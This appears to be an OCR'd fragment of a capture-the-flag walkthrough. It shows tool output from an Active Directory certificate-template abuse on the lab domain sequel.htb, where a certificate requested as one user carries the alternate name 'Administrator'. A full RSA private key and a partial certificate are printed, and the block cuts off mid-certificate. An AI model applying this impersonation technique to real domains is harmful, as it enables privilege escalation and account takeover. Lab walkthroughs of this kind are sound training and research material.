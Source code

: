 ```ruby
        [*] Subject                 : CN=Ryan Howard, CN=Users, DC=sequel, DC=htb
        [*] AltName                 : Administrator

        [*] Certificate Authority   : DC01.sequel.htb\sequel-DC01-CA

        [*] CA Response             : The certificate had been issued.
        [*] Request ID              : 25

        [*] cert.pem         :

        -----BEGIN RSA PRIVATE KEY-----
        MIIEpQIBAAKCAQEAywmmx2jyWYtZDaxTnMOgVw5lYSFsQnp0SQ8saRvrctKtTf6r
        zFJQoP5okLP/rxfb4tetWgv21zFa3EJzqlxMN7fzEkh0GSK9HZvIBCRhlFcFf1MD
        4T0K1i+VONxc250BrSe58cFolHV5UU/nJCjH5Gz2cWDltwJuvisJyQH8RFD8kZSw
        VNPfs3AHE3kItFtAqiJHtZ2gTxZT3SLWzHUaXYlAhe3nXEg13gjUABWwevH467gd
        op+JuC7LGaHX9WQUJzwN4Oe92Pl39CT6ZIPiUjPrlblEGYOM1xhBYDZ1QFra5i9z
        Afllk5HiK6vQsuj7Fn74C+W01jDRQpTbwRmpdQIDAQABAoIBAQDJFsoDfcFpRkXw
        8NfuzyGilzN5O60JOlapdUm64FgU5OuX778fIfeRO+c8ScnWFH9G7+1U3byf7NXc
        iEQeWkNye9FWLkQuEOXUyVEUKSQr0vQy4nlZPyfYclAMfNPK/nmGkW3sLm3xe1eo
        XMbEXU98wR5jtGBPHS2pUt7iIgFDdl5/ErGQHEcMqF5T9mG3u95PaK34v84vsZz8
        U2NhxHocpLG6Ff8daDS7cOCbTngEGa4FJT+St8lvcfMTUu7HZwoFRc92UHlFA7RO
        +AVQ22wTyCp9kAcDYj3BkGJ1o29SOW0zrrgCM65bqnyy5jfAH2fwEEe0bd9pu99w
        VJgWPBeRAoGBAOz2v+KyDo22rWhIqlE1uVkFjlXpiG0YjcUbGW4tXIf1RVI3xZo2
        XbVy6Ne9wMDGviNlh8lmZ414SGX5zFoFu/xT2h8AtuGu/dhxvJal+WrBzU+JCwI1
        3KFGqV8cFUdX1qn+3QmF9NFXKuHv91hGrNr2EJNOzsy+qIdll7UDbDsHAoGBANtZ
        MpscBOrWyg4LZHEb2f8zFozO6l82+df7uo99Scc8vlxFInGT4O7ORZh5XNvQ2Gcc
        gc9mZBRDlAiPfWO0+lQjBXdOwCQQ4REKPUWv7eKDjtyFGyh13FV0Y/NsMZEmTwcP
        kTfdX7c+8GDfYxYgw9T4mHQmLyOyJEdaoVUUhkyjAoGBALA/o19QwoRjMD1VduCq
        Te7JtCFwbpl+XswRKOwK7zzskB/j/aSC9VYlXsxAhaKc8AVR2hpRgYn2whqfHoCC
        rVyzXZQbqurXhlU722JNluLxvOyAaOC/ARgvf4CPWcBTtAWC3BLeQMaHyAx+uIE/
        KAhAZvm57xTYZm82gA0Ru6l3AoGAKn4lJ5dN/JCPpBjg5GiY2q9y9uQ+0yM7U3QY
        uCN1X3uNBSL/gTE8qgabxOX97zeONKt5GkyjpqlQzDe/+sjcleAS9wHyhwoeD8cE
        B7QFSZRi4KWIlVX/0S4zDr0u/QeG179USpZALKesuZeNAoRma6OdJSMgjrG8BXax
        OmI3gjECgYEAxYhEsAXibUmUKVQw7Fic8NJ2rFWh1h1VtYSo9nYUqF3NebzNfBf6
        1M+rxXf0ErF5Dzp/unWCRN2v3xCzRTDsv1xleR/y2hc89YcnfWJDLaZJTD7YP8ZS
        GFyROgspNgvRcmYkQY/FdDpryY1oNL3XNq6SelDOGMgENdOU9UJfqX8=
        -----END RSA PRIVATE KEY-----
        -----BEGIN CERTIFICATE-----
        MIIFcjCCBFqgAwIBAgITVAAAABkNQCiEaGhMeAAAAAAAGTANBgkqhkiG9w0BAQsF
        ADBGMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGc2VxdWVs
        MRcwFQYDVQQDEw5zZXF1ZWwtREMwMS1DQTAeFw0yNTA1MDYyMDQ2MTZaFw0yNzA1
        MDYyMDU2MTZaMFMxEzARBgoJkiaJk/IsZAEZFgNodGIxFjAUBgoJkiaJk/IsZAEZ
        FgZzZXF1ZWwxDjAMBgNVBAMTBVVzZXJzMRQwEgYDVQQDEwtSeWFuIEhvd2FyZDCC
        ASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAMsJpsdo8lmLWQ2sU5zDoFcO
        ZWEhbEJ6dEkPLGkb63LSrU3+q8xSUKD+aJCz/68X2+LXrVoL9tcxWtxCc6pcTDe3
        8xJIdBkivR2byAQkYZRXBX9TA+E9CtYvlTjcXNudAa0nufHBaJR1eVFP5yQox+Rs
        9nFg5bcCbr4rCckB/ERQ/JGUsFTT37NwBxN5CLRbQKoiR7WdoE8WU90i1sx1Gl2J
        QIXt51xINd4I1AAVsHrx+Ou4HaKfibguyxmh1/VkFCc8DeDnvdj5d/Qk+mSD4lIz
        65W5RBmDjNcYQWA2dUBa2uYvcwH5ZZOR4iur0LLo+xZ++AvltNYw0UKU28EZqXUC
        AwEAAaOCAkowggJGMD0GCSsGAQQBgjcVBwQwMC4GJisGAQQBgjcVCIOFgESHvJM3
        hdGJJcLeUoTxqjiBKYb4snGD5uhaAgFkAgECMA4GA1UdDwEB/wQEAwIHgDAdBgNV
        HQ4EFgQUIkyMwTAFzYk2aMYAcduNJhz2JeIwKAYDVR0RBCEwH6AdBgorBgEEAYI3
        FAIDoA8MDUFkbWluaXN0cmF0b3IwHwYDVR0jBBgwFoAUxkG5tuQOR9YGWmzxisaU
        /Rr7uMMwgcgGA1UdHwSBwDCBvTCBuqCBt6CBtIaBsWxkYXA6Ly8vQ049c2VxdWVs
        LURDMDEtQ0EsQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
        ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1zZXF1ZWwsREM9aHRi
        P2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxE
        aXN0cmlidXRpb25Qb2ludDCBvwYIKwYBBQUHAQEEgbIwga8wgawGCCsGAQUFBzAC
        hoGfbGRhcDovLy9DTj1zZXF1ZWwtREMwMS1DQSxDTj1BSUEsQ049UHVibGljJTIw
        S2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1z
        ZXF1ZWwsREM9aHRiP2NBQ2VydGlmaWNhdGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0
        aWZpY2F0aW9uQXV0aG9yaXR5MA0GCSqGSIb3DQEBCwUAA4IBAQAXs9co+ZpgAzGn
        TKWgG+gNJNeJYGK4ftqecfitQoFBJ9YvBGKlYEOQoAgp9SaBTWJ87z4+hxKy3OQB
```